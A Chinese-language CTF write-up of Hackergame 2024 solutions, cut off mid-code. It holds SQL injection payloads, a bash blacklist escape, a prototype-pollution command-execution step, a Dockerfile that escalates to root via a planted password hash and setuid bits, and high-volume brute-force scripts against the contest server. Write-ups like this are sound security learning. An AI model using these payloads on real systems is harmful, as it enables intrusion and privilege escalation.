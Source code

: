 # Hackergame 2024 个人题解
Lysithea 48th 5250 

![](https://img.shields.io/badge/你们怎么这么能卷啊-7899cc) ![](https://img.shields.io/badge/没有openAI_o1_preview用感觉像个原始人-ffdd88) ![](https://img.shields.io/badge/算力不足恐惧症-7899cc) ![](https://img.shields.io/badge/Z3也沙疯了-779977) ![](https://img.shields.io/badge/好几个就差一步大腿拍烂了-7899cc) ![](https://img.shields.io/badge/注意力涣散-779977) ![](https://img.shields.io/badge/xzrj3攻击服务器了ごめんね-ffdd88) ![](https://img.shields.io/badge/思维要活跃，要跳脱，不要硬刚-7899cc) ![](https://img.shields.io/badge/准备赛后不看题解把🥒🐱爆了-ffdd88)

## ![](https://img.shields.io/badge/web-0c4d72) 签到 

`http://202.38.93.141:12024/?pass=true`

## ![](https://img.shields.io/badge/web-0c4d72) 喜欢做签到的 CTFer 你们好呀

先找到他们招新的官网：https://www.nebuu.la/ （意外找了挺久，从比赛主页-承办单位进）

打开是个伪终端，功能实现还挺全的，虽然知道都是写好的JS，骗骗自己而已

`env`里有一个，然后`ls -al`可以看到个`.flag`，`cat .flag`是另一个。

还有个解法是去逆向JS，有几个很长的base64解一解就出来了。

## ![](https://img.shields.io/badge/general-af2447) 猫咪问答（Hackergame 十周年纪念版）

Hackergame的问答题目有一点好（或者不好），就是它提交答案是不限提交间隔的。偏偏它还出一大堆纯数字的题，这不是明摆着教人爆破嘛。

总之先拍个爆破脚本在这里：

```py
import requests
from bs4 import BeautifulSoup

sess = requests.session()
sess.cookies.set('session', os.environ.get('TOKEN',''), domain='202.38.93.141')

HOST = 'http://202.38.93.141:13030/'

ans = {
    'q1': '3A204',
    'q2': '2682',
    'q3': '程序员的自我修养',
    'q4': '336',
    'q5': '',
    'q6': '',
}

TARGET = 'q6'

resp = sess.post(HOST, data = ans)

bench_score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])

for i in range(0, 6000):
    ans[TARGET] = str(i)
    resp = sess.post(HOST, data = ans)
    score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])
    if score > bench_score:
        print('correct', i)
        break
    else:
        print('wrong', i)

```

#### Q1: 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

首先去找历届Hackergame新闻，能找到他们[中科大Linux用户协会](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)的历年活动记录，不过很可惜Hackergame赛前讲座没有到第一届的。不过上面有个第三届的【链接已失效】，于是就去web of archive上找了一下，结果找到了2017年[失效之前的网页内容](https://web.archive.org/web/20170514082933/http://sec.ustc.edu.cn/doku.php/contest)。3A204

#### Q2: 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

虽然我知道Github全找一遍就行，但是太累了，MD跟他爆了！

#### Q3: Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？
能让检索词成为第一的只能是猫咪问答了，所以去看了一下[当年和图书馆有关的题](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)

> 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
>
> 打开中国科大图书馆主页，直接搜索“**程序员的自我修养**”即可。

#### Q4: 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

首先要找到是哪篇论文《[FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)》。然后稍微读一下文章即可（或许也有种办法是搜一下数字）。目标在第6节的开头，`All 20 clients are configured as MUAs for all 16 providers
 via IMAP, resulting in 336 combinations (including 16 web
 interfaces of target providers). `

#### Q5: 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？
这个事是个大新闻，所以<s>跑得快</s>报道的媒体肯定很多，随便[搜了一个](https://www.phoronix.com/news/Russian-Linux-Maintainers-Drop)，里面就有commit的截图。

#### Q6: 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

似乎是可以去Huggingface上找那个tokenizer.json，但是下载好像要申请权限。不过无所谓，既然是纯数字，那跟它爆了！


## ![](https://img.shields.io/badge/general-af2447) 打不开的盒

给了个stl模型文件，用blender导入之后，以网格模式查看，发现盒子中间有些节点很明显是flag的形状。于是只要把盒子外边的顶点在编辑模式下全删了就行。当然即使全删了，还需要人眼OCR。

## ![](https://img.shields.io/badge/general-af2447) 每日论文太多了！

下载论文之后，用Acrobat搜索flag，发现停在了一个神奇的图片后面（甚至看不见光标），用编辑模式把图片挪开就拿到flag了。

我更加震惊的是，期刊/会议发表论文居然可以这么藏私货的吗。

## ![](https://img.shields.io/badge/web-0c4d72) 比大小王

> 看得出来是想neta小猿口算

总之是一个比大小的题，要10秒内做100道。一开始服务端会把所有题目以json形式送过来，然后我们就可以在devtools控制台里跑个js脚本生成正确答案，就可以秒出了。另外这个题的题目发过来后比赛开始前有个倒计时，抢跑会被发现。

```js
state.inputs = state.values.map((el) => {
    let res = '<';
    if( el[0] > el[1] ){
        res = '>'
    }
    return res
})

submit(state.inputs)
// flag{I-AM-TH3-hACker-KiN9-0f-CoMP@RIN9-numbeRs-Z0Z4}
```

## ![](https://img.shields.io/badge/general-af2447) 旅行照片

我知道这个OSINT挺放水的了，但是我就是弱OSINT，怎么办嘛

#### Q1: 科里科气
<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/klkq.jpg" width=50%/>

> 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：X校区Y门，均为一个汉字）
> 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

这个算是把标志性建筑摆脸上了，百度地图随便搜一下就出。这个地方在中校区和东校区之间，一共就几个门，遍历一下就出（而且门的名字只能有一个字，也排除了一些）

ACG音乐会的话，首先搜B站视频是不准的，因为基本不可能存在当天就放出演出视频的情况（总得剪辑的）。最好的方法是搜社团公号或者[微博]()，因为这种二次元活动一定是会有通知宣传的。

![](osint/acg_concert.jpg)

#### Q2: 两张景点照片

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image01.jpg" width=50%/><img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image04.jpg" width=50%/> 

> 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）
> 问题 4: 这个景观所在的景点的名字是？（三个汉字）

右边是个标志性景点，google lens可以出，是宜昌**坛子岭**观

左边从垃圾桶的小字上隐隐约约能看到是六安，于是在六安市的公园，再加上有跑步道，树还挺多。多试了几次就能知道是**中央森林公园**。

#### Q3: 铁路俯视图

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image06.jpg" width=80%/>

> 糟了，三番五次调查学长被他发现了？不过，这个照片确实有趣，似乎有辆很标志性的……四编组动车？
>
> 问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）
> 问题 6: 左下角的动车组型号是？

不会捏。四编组动车搜了一下新闻说是广州广清那里有引进，但是那么长的铁路也没找到和图片里特征相似的。

## ![](https://img.shields.io/badge/general-af2447) 不宽的宽字符

题目给的程序把输入路径从`wchar_t*`直接强转成`char*`了，不用说这是一种极其抽象的行为，因为宽字节数组包含单个0字节的时候不会被截断，但是`char*`会。所以即使程序在我们的输入后面添加了许多垃圾内容，只需要一个null byte就全部无效了。

可以用这个：
```py
s = b'Z:\\theflag\x00\xbb'

if len(s) % 2 == 1:
    s = s + b'\x00'

print(s.decode('utf-16'))
# 㩚瑜敨汦条묀
# flag{wider_char_isnt_so_great_bc8e1de5e2}
```

## ![](https://img.shields.io/badge/general-af2447) PowerfulShell

黑名单比较严格的一个bash逃逸。从结果来看能用的字符只有：`$+-123456789:=[]_``{|}~`。为了做出这个题，需要至少知道这么几件事：

- 一部分bash特殊变量：`$-=hB`包含当前终端的输出模式，`$_=input`是上一个引用的变量名
- 在没有后缀的情况下，`~`会展开为家目录。但我们可以用变量赋值`__=~`取消这个限制。这个很重要，因为我们只能通过这个方式拿到一个`s`
- `${-:1:1}`可以取子字符串。虽然0在黑名单里，但要取第一个字符可以`${-::1}`

这三点少一点应该就完全做不出来。属于是做出来脑子想穿，做不出来大腿拍烂。

```sh
__=~
${__:7:1}${-::1}
```

## ![](https://img.shields.io/badge/web-0c4d72) Node.js is Web Scale

直球考prototype pollution的。总之打开网页后上下分别填`__proto__.eee`和`cat /flag`添加后，直接访问`/execute?cmd=eee`就行

## ![](https://img.shields.io/badge/web-0c4d72)  PaoluGPT

给源码的SQLite注入，比较送。不过值得注意的是这个题没有藏表，所有flag全在文章内容里，所以得写代码遍历。虽然flag2是在隐藏文章里需要注入才能找到，但是flag1不需要注入的明显更难找，大隐隐于市了。

总之做个备忘，SQLite主表是`sqlite_master`，直接存的是表名和sql语句，所以不用爆列名了。

```sql
/view?conversation_id=1' union select name,sql from sqlite_master limit 1 offset 0--
' union select title,contents from messages limit 1 offset %s--
```

## ![](https://img.shields.io/badge/math-90b452) 强大的正则表达式

正则编程题，只能用数字小括号星号和数线，最大字符限制1000000。时间有限就只做了第一问。求16的模。因为`16*625=10000`，所以只要把后四位的情况遍历一下就行了。注意小于10000前面没有0，要单独处理

## ![](https://img.shields.io/badge/math-90b452) 惜字如金 3.0

> 沟槽的xzrj还在追我

第一问没什么好说，就是确保你理解了这套变换规则的。

第二问的CRC函数大小写信息被抹掉了。这个变化会影响结果，所以可以本地爆破出来。

首先说明一下，提交到网站上的文件如果包括错误的行，会返回你的行对应的hash（而不会暴露服务端的）。如果hash一致但内容错了，爆出的是你的文件里最后一个错误的字符。如果hash恰好和其他行一致（传错行了），那么也会指明。

```py
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'B', 48 # 这里少了48个B或b
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B' 
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd                 
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
```

首先观察一下crc算法。第一步是用那个大小写未知的poly变量构造一个48位的整数`flip`，一一对应。之后用`flip`处理输入。从一个全1数开始，每次读入一个字节和最低字节异或，然后右移一位，根据最低位的情况是否和flip异或，重复8次，开始处理下一个字符。这个选择异或的过程是可逆的（假设flip最高位为1，可以通过最高位的情况预测是走哪个分支）。但对flag2没有帮助（对flag3可能有）。但是通过构造一个特定的输出可以让这个函数稳定返回`~flip`，即`FFFFFF` + 全0 + `80`。

然后就是第二个hash函数，是`2**48`模意义下做了个二次函数运算。因为模是合数所以这个乘法是不可逆的，不太确定非质数模意义下二次函数求根公式还有没有意义。总之我是taichi写了个gpu kernel爆算的。这竟然是我第一次写taichi。在和`range`不支持64位整数这件事斗争很久后，写出了这段东西：

```py
import taichi as ti

# export LD_LIBRARY_PATH="/usr/lib/wsl/lib:${LD_LIBRARY_PATH}"
ti.init(arch=ti.gpu, default_ip=ti.i64)

target_f = 'answer_c.py'
u2, u1, u0 = (241818181881667, 279270832074457, 202208575380941) if target_f == 'answer_b.py' else (246290604621823, 281474976710655, 281474976710655)
target_hash = 229418662089585

if target_f == 'answer_c.py':
    poly, poly_degree = 'CcccCCcCcccCCCCcCCccCCccccCccCcCCCcCCCCCCCccCCCCC', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'C' 
    flip = sum(['c', 'C'].index(poly[i + 1]) << i for i in range(poly_degree))

@ti.kernel
def calc_hash(hash: ti.u64) -> ti.u64:
    ''
    u1_ = ti.u64(u1)
    u2_ = ti.u64(u2)

    result = ti.u64(0)
    for i_high in range(0x1000, 0x1000000):
        for i_low in range(0x1000000):
            digest = ti.u64(i_high) * 0x1000000 + ti.u64(i_low)
            hash_res = (digest * (digest * u2_ + u1_)) & 0xffffffffffff
            if hash == hash_res:
                result = digest
                print(f"result: {digest}")
            
            if (i_low % ti.u64(0x100000) == 0) and (i_high % ti.u64(0x100000) == 0):
                print(f"status: {i_high // 0x100000} {i_low // 0x100000}")
            
    return result

flip_inv = calc_hash((target_hash - u0 + 2**48) % (2 ** 48))
print(f"result: {flip_inv}")
```

只要上线请求一组那个对应`~flip`的hash，然后拿到这里爆算就行了。在我的4060上把结果跑出来大概十几分钟。

flag3前半部分用相同办法可以爆出poly，但是hash里的u2,u1,u0里的大小写未知，并且这个是不影响运行结果的。因为拿不到任何服务端hash的信息，所以只能在线爆破了。hash的取值空间是`2**48`，但是这一行所有输入的取值空间是`2**32`。每次提交能检查的行数等于文件原行数97，所以我们最多爆`2**32 // 97 + 1 == 44278014`次。似乎刚好在爆破允许的边缘。

我用`httpx`写了个超快的异步并发算法。我在两个不同设备上跑两份这个代码可以发现请求速度明显变慢了，说明已经到达服务端的饱和吞吐量（或者至少是我们这个校园网带宽的最大吞吐量），不用做多线程优化了。目前这个算法是一轮触发100个请求，期间请求失败就立刻重新请求，所有请求全部成功后进入下一轮。我知道这个会导致一些轮空的机制，但我发现把这个100改大之后反而跑的更慢了，我觉得我这边快没用，带宽和服务端那边得能顶得住才行。那么这样大概是44万轮，按第一天的速度1秒一轮的话，大概总共用时5.09天……似乎有戏？（然后第二天服务器就降速了，用时翻了2-3倍，呃呃）

> 虽然我知道一般CTF比赛都是禁止在线爆破的。我还特意看了眼比赛规则，没提这个事

```py
template = "    u2, u1, u0 = 0xDFFFFFFFFFFF, 0xFFFFFFFFFFFF, 0xFFFFFFFFFFFF                 "
ind_0 = template.index("xDF") + 3
ind_1 = template.index("xF") + 2
ind_2 = template.rindex("xF") + 2
ind_mask = list(chain(range(ind_0, ind_0 + 10), range(ind_1, ind_1 + 11), range(ind_2, ind_2 + 11)))

def num_to_target_line(num):
    num_bin = f"{num & 0xffffffff:032b}".replace('0','F').replace('1','f')
    req_str = list(template)
    for i, bit in enumerate(num_bin):
        req_str[ind_mask[i]] = bit
    return ''.join(req_str)

client = httpx.AsyncClient()
client.cookies.set('session', TOKEN, domain = '202.38.93.141')

async def req_hash_async(num_iter):
    # construct body
    body = "\n".join([num_to_target_line(i) for i in num_iter]) + "\n"

    HOST = f'http://202.38.93.141:19975/{target_f}'
    while True:
        try:
            resp = await client.post(HOST, data=body)
            resp_json = resp.json()
            break
        except httpx.ConnectTimeout:
            continue
        except json.JSONDecodeError:
            if (resp.status_code == 502) or (not resp.text):
                continue

            print(f"json: {resp.text}")
            continue
        except (KeyboardInterrupt, SystemError):
            raise
        except Exception as e:
            if str(e) and str(e) != 'All connection attempts failed':
                print(f"unknown exception: {str(e).encode()}")
            continue
    
    if resp.status_code in (400, 200):
        for k,v in resp_json['wrong_hints'].items():
            if 'Unmatched hash' in v:
                continue
            else:
                print(f"possible result: {body.splitlines(keepends=False)[int(k) - 1], v}")

    else:
        # unlikely
        print(f"unlikely: {num_iter, resp.text, body}")

N_LINE = 97
EVENT_BATCH_SZ = 100
import sys
START_BATCH = int(sys.argv[1]) if len(sys.argv)>1 else 0
INTMAX_RES = 2 ** 32 // 97

def task_iter(loop, max_task = 1000, start_task = 0):
    for i in range(start_task, max_task):
        yield loop.create_task(req_hash_async(range(i*N_LINE, (i+1)*N_LINE)))

loop = asyncio.get_event_loop()
for start_task in tqdm(range(START_BATCH, INTMAX_RES + EVENT_BATCH_SZ, EVENT_BATCH_SZ)):
    t_st = time.time()
    loop.run_until_complete(asyncio.wait(list(task_iter(loop, start_task + EVENT_BATCH_SZ, start_task))))
    t_ed = time.time()
    # print(f"Batch {start_task}: duration: {t_ed - t_st} s")

loop.close()
```

另外我意识到我们可以找到一组输入让它的hash返回`answer_c.txt`，但是没想到怎么用，因为长度检查加上爆hash的难度，基本不可能用这种方法leak flag。也许是我想错了吧。期待出题人或者其他人给出不基于在线爆破/降低在线爆破压力的解法（比如说本地逆那个crc发现相当一部分请求给出的hash是相同的）。不然的话怎么说呢，校内骑在服务器上网速更快，专业团队有更多云设备的话也能多端高并发，就我这什么也没有，那不是很不爽。

## ![](https://img.shields.io/badge/math-90b452) 优雅的不等式

只用加减乘除乘方构造一个sympy函数，使得其在0-1定积分等于`pi - p/q`，其中p/q是给定的两个数。flag2需要给出`q`达到`2**200`的最近逼近。

只做了第一问，只要解决1/2和8/3两个最简单情况：
```py
naive_f_0 = f'4*((1-x**2)**(x/(x+x))-1+x)'
naive_f_1 = f'4*((1-x**2)**(x/(x+x))-1+x**2)'
```

## ![](https://img.shields.io/badge/general-af2447) 无法获得的秘密

题目是个不能复制的NoVNC连接一个不联网的debian桌面系统，有一个`/secret`大约64MB的二进制文件，我们需要把这个文件的内容分毫不差地带出来。

传说中的OCR题。作为开始的第一步，我想这个题应该需要大量机器辅助操作，所以我写了一个`selenium`和网页交互。考虑到写鼠标操作有点困难，我只写了向终端输入内容的部分，进入系统后我需要手动打开终端最大化。

```py
input("> ready to paste shell")

driver.switch_to.frame('novnc-iframe')

driver.execute_script('document.getElementById("noVNC_control_bar_handle").remove()')

driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(init_cmd + '\n')
```

然后我们需要把二进制的secret转化为可打印字符。我一开始用的是base64，但后来我意识到这会给OCR工作带来多么大的压力后，我采用了base16，也就是hex编码。这样文件大小会变为2倍，但是可识别性容易多了。

```py
init_cmd = 'echo "print(open(\'/secret\',\'rb\').read().hex(sep=\'\\n\',bytes_per_sep=38).upper())">p.py && python3 p.py >s && echo \'#!/bin/bash\'>c && echo \'head -n$1 s|tail -n30\'>>c && chmod +x c && head -n100 s'
```
这段代码生成几个脚本文件
- `p.py`: 把secret转换为base16存储到本地文件`s`中。每行最多38个字符（和base64默认一致）
- `c`: shell脚本，用head和tail，打印文件固定位置下30行。

之后利用`selenium`的截图功能，每运行一次`c`就截一张图，大概总共需要460张图把整个文件截完。

```py
for i in range(460):
    driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(f"bash c {(i + 1)*N_LINE}\n")
    time.sleep(2)
    driver.save_screenshot(f'tmp/{i:04d}.png')
    print(f"screenshot {i} saved")
```

在正式OCR之前还要做些预处理，截取文字区域，二值化。这部分我用的opencv2。

```py
def preprocess(img_path, slice_row = True):
    im = cv2.imread(img_path)
    im = cv2.cvtColor(im, cv2.COLOR_RGB2GRAY)

    im = im[164:829, 100:900]
    # print(im.shape, im.dtype)

    thre, im_thre = cv2.threshold(im, 127, 255, cv2.THRESH_BINARY_INV)
    if slice_row:
        # print(im_thre.shape, im_thre.dtype)
        row_hist = np.mean(im_thre, axis=1)
        # col_hist = np.mean(im_thre, axis=0)
        # print(row_hist)

        row_slices = []
        # record max hist of this row
        row_hist_max = []

        record_st = None

        for i_row in range(row_hist.shape[0]):
            is_gap = row_hist[i_row] < .1
            if (record_st is not None) and is_gap:
                # stop recording
                row_slices += [im_thre[record_st:i_row, :]]
                row_slices[-1] = cv2.resize(row_slices[-1], (row_slices[-1].shape[1] * 3, row_slices[-1].shape[0] * 3), cv2.INTER_LINEAR)
                row_hist_max += [np.mean(row_slices[-1][:])]
                record_st = None

            elif (record_st is None) and (not is_gap):
                # start recording
                record_st = i_row

        # there should be one line that is very small, which is the shell prompt
        I_prompt = np.argmin(np.array(row_hist_max))

        # print(col_hist)

        # to grey
        return row_slices[I_prompt:]
    
    else:
        return im_thre
```

之后进入OCR环节，试了easyocr，umi ocr和tesseract。我这才意识到在追求绝对精度的前提下，现有OCR技术其实还挺糟糕的。另外我在喂给OCR之前还尝试行切割，但还是效果很差。

最后我拿出来手头最nb的OCR软件：Adobe Acrobat。不得不说商业软件就是猛啊，连行切割都不用，直接出结果。

OCR结果出来后，用了`pdfminer`把文字从PDF提取出来。然后会发现文本里其实有不少错误，有些是转换为了base16以外的字符，比如S和5，l和1这种。但还有一些是Base16内部混淆，最经典的就是`B,5,8`这三个字符。其实为了识别精度应该把这三个字符替换成其他不会混淆的字符，但我实在懒得再跑一边OCR流程，于是写了个验证脚本。大概逻辑是，把本地文件的30行传上去，用`diff`做逐行匹配，找出每一页上第几行第几个字母和远程结果不同。最后得到的一个纠正json，格式大概长这样：

```py
err_map_detail = {
    (2100, 7): ('747BD11', '7478D11',),
    (2100, 11): ('68D3BD', '68D38D'),
    (2700, 5): ('086DB9', '086D89'),
    (3690, 3): ('4BD713', '48D713'),
    (4590, 17): ('3E8BBF', '3E5BBF'),
    (6270, 14): ('ECA85B', 'ECA55B'),
    (6270, 29): ('7FB8C1', '7FB5C1'),
    (7440, 23): ('83BD74', '838D74'),
    (8730, 20): ('E8E14C', 'E5E14C'),
    (8910, 6): ('DB2D7E', 'D82D7E'),
    (9780, 21): ('7DB3F', '7D83F'),
    (12090, 30): ('758C1F', '755C1F'),
    (12120, 14): ('FAF8CF', 'FAF5CF'),
    (12360, 14): ('257BD', '2578D'),
    (13410, 4): ('A78CD', 'A75CD'),

}
```

全部处理完后，最后算一个整个文件的md5，结束战斗。

> 忽然意识到最开始文本化的时候，如果能引入纠错码机制，可能省不少事。
>
> 看完题解：原来题解用的是图片编码整个文件，可以一张图直出。可以用带纠错机制的图片编码，或者把VNC的websocket暴露出来自己连接然后改设置为无损传输。

## ![](https://img.shields.io/badge/general-af2447) Docker for Everyone Plus

前年docker题升级版。现在docker只能用sudo调用了，并且限制了只能特定格式的命令，但是docker镜像可以自己打包上传。flag在一个设备文件里，只有`root`和`disk`组有读写权限。

首先这个题终端可以用`lrzsz`收文件。我用pwntools写了个上传函数，带进度条（不太准是因为字符escape的原因，上传文件大小会比真实文件大小大个百分之几）

```py
def sz_upload(conn, fpath):
    '''
    '''
    conn.sendline(b'rz')
    conn.recvuntil(b'waiting to receive.**')
    
    conn_zm = process(['sz',fpath])
    with tqdm(total = os.stat(fpath).st_size) as pbar:
        while True:
            try:
                resp = conn.recv(1024 * 16, timeout=.1)
                conn_zm.send(resp)

                resp = conn_zm.recv(1024 * 16, timeout=.01)
                conn.send(resp)
                pbar.update(len(resp))
            except EOFError:
                break
    return
```

第一问允许的命令格式`sudo -l`为：
```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

所以用前缀限制了我们只能以UID/GID=1000进入容器。我试了直接在后面加`-u  0`，无效，似乎是前面申请了低权限后面再次申请高权限就会被阻止。

以这种方式进入容器的话，suid的cat似乎用不了，但是直接su可以，记得把容器内的su给上suid权限。

总之参考了[这篇博客](https://www.cnblogs.com/kqdssheng/p/18275541#id2.5)。我容器内的密码哈希的用户名用的和前面不一样，这样似乎就不会检查容器外的密码，但获得的UID也确实是0。

```dockerfile
FROM alpine

RUN chmod 4755 /bin/sh /bin/cat /bin/su /usr/bin/passwd

RUN echo me:x:1000:1000:me:/home/me:/bin/sh >>/etc/passwd
RUN echo you:x:1001:1001:you:/home/you:/bin/sh >>/etc/passwd
# root password is password123
# generate with `openssl passwd -1 -salt r00t password123`
RUN sed -i 's/root::0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd
RUN sed -i 's/root:x:0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd

CMD [ "/bin/sh" ]
```

第二问加了`--no-new-priviledge`设置，suid相关提权都会失效，暂时不知道怎么绕。常见的bind docker.sock之类的方法也试过了，没用

```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm --security-opt\=no-new-privileges
        -u 1000\:1000 *, /usr/bin/docker image load, !/usr/bin/docker * -u0*,
        !/usr/bin/docker * -u?0*, !/usr/bin/docker * --user?0*,
        !/usr/bin/docker * -ur*, !/usr/bin/docker * -u?r*, !/usr/bin/docker *
        --user?r*, !/usr/bin/docker * --privileged*, !/usr/bin/docker *
        --device*
```

> 赛后：第二问预期解是在容器内`mknod`一个对应设备号、被1000拥有的设备文件，然后在容器外用`/proc/[pid]/root`访问容器内命名空间根目录（不能在容器内cat，有cgroup）。但是有个神秘的非预期是`--security-opt=no-new-privileges:false`，我真的感觉我做的时候试了这种方式，但可能因为flag1我没有完全搞清楚，所以这里以为我试过了其实因为别的原因没有成功。有点可惜

## ![](https://img.shields.io/badge/general-af2447) 不太分布式的软总线
最后一天看这题三问怎么那么多人做了，干脆也做一下。分类上这题严格应该属于PPC。

DBus是一种进程间通信（IPC）机制，感觉和RPC类的有点像，可以做远程过程调用，或者单纯收发信号。通过dbus-daemon来整合事件循环。许多Linux桌面系统，比如gtk，内部的进程间通信就是用的dbus。gtk的dbus似乎有个专门的库叫gio，抽象程度比dbus稍高，更好用一点。

dbus一般会分系统总线和会话总线，系统总线只有一个，这个题的flagserver就是挂在系统总线上的。会话总线可以有很多，每个会话总线会对应一个DISPLAY环境变量，这也就是为什么用X11或者Xwayland的时候要指定这个环境变量，这样才能与对应的桌面组件进行通信。当然这个题不用想那么多，我们就单纯把这个作为一种RPC手段就行了。

> 为什么提这个，因为网上搜dbus搜到的几乎全是会话总线的代码

和总线通信需要总线地址，对象名，接口名和方法名（如果是方法调用）。这些在文件里内容比较分散。但是这个题附件的`getflag3.c`其实就是一个这种dbus请求的完美模板，只要稍加改动就能直接过flag1，非常感人。不知道这是不是这个题通过率如此高的原因。

```c
#include <gio/gio.h>
#include <glib.h>
void flag1(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag1...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag1",
					g_variant_new ("(s)", "Please give me flag1"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
    // flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_41140ef451}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
